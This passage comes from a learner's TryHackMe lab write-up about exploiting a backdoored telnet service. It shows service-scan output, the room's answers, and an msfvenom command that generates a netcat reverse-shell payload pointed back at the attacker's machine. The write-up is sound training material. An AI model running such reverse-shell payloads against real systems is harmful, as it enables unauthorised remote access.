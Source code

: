 ```
SF:20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(TerminalServer,2E,"SKI
SF:DY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands\n")%r(NC
SF:P,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20view\x20commands
SF:\n")%r(NotesRPC,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HELP\x20to\x20vi
SF:ew\x20commands\n")%r(JavaRMI,2E,"SKIDY'S\x20BACKDOOR\.\x20Type\x20\.HEL
SF:P\x20to\x20view\x20commands\n")
```
--> skidy

#### NOTE:

> Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits. 


> #### Basically, the thing is telnet is not running...


Task7: Exploiting telnet
-------------------------

So, from our enumeration stage, we know:

    - There is a poorly hidden telnet service running on this machine

    - The service itself is marked "backdoor"

    - We have possible username of "Skidy" implicated

Using this information, let's try accessing this telnet port, and using that as a foothold to get a full reverse shell on the machine!


![](https://github.com/reveng007/TryHackMe/blob/main/_SUBSCRIPTION_/paths/Complete%20Beginner/3.Networking%20Fundamentals/03.Network%20Services/not-getting_any_output.png?raw=true)


1. Great! It's an open telnet connection! What welcome message do we receive?

--> SKIDY'S BACKDOOR

2. Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)

--> N

Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command.


It was told in the room to start tcpdump at eth0...

But I started **`wireshark`** at eth0 

I found out that **`ping`** commnd is sending ICMP request ...

=> system command can be executed

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:

`"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`
